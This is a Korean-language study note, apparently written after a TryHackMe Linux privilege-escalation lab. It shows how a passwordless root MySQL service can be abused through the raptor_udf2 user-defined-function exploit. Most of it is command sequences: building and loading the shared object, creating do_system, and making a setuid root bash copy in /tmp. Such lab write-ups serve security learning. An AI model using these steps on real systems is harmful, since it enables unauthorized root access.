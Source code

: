 # Service Exploit
## INTRO
> 시스템 내에 실행 중인 서비스를 대상으로 루트 권한 상승을 일으키는 예제

## TAKE 1
- 보안 설정이 약한 MySQL 서비스는 루트로 실행할 경우 패스워드를 물어보진 않을 것이다
```
$ mysql -u root

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36
Server version: 5.1.73-1+deb6u1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
- MySQL에는 UDF (User Define Function) 즉 사용자 정의 함수를 통해 기능을 추가할 수 있다. UDF는 C나 C++로 작성해 추가한다. C나 C++은 보안 공부에 있어 거쳐야하는 단계이지만 몰라도 괜찮다 exploit-db를 통해 공략해보자
 - MySQL UDF : https://www.exploit-db.com/exploits/1518


### TAKE 2
- exploit-db에 나와있는 문서를 통해 해당 취약점을 어떻게 이용하는지 알아보자. 영어로 되어있는 문서들의 내용을 열심히 해독하다 보면 다음과 같은 내용들이 나온다
```
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 [...]
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
```
- 명령어만 봐도 대충 어떻게 이용할 수 있는지 알 수 있다.
- 참조한 exploit-db의 링크에는 do_system 함수(UDF)가 정의 되어있는데 이를 root 권한으로 실행된 MySQL에서 이용할 수 있게 해주는 SQL문이다.
- 결론적으로는 do_system 함수를 다음과 같이 썼을 때
  ```sql
  select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
  ``` 
  root 권한을 가진 bash 쉘을 tmp 디렉토리에 rootbash 파일로 복사해 실행하게 한다면 권한 상승을 일으킬 수 있다

### TAKE 3
- 위 과정은 TryHackMe의 LinuxPrivEsc Task2를 정리한 내용
- MySQL의 UDF를 예제로 설명했지만 실제로 시스템 내에 실행중인 Service를 대상으로 권한 상승을 일으키는 일은 더 많은 조사와 노력들이 필요할 것이다. 그러니 다음과 같은 체크포인트를 생각해보며 검색을 해보자
  - [x] 서비스 버전 조사  
  - [x] 루트 권한으로 실행중인 서비스 탐색
  - [x] exploit-db를 통해 공략 정보 탐색
  
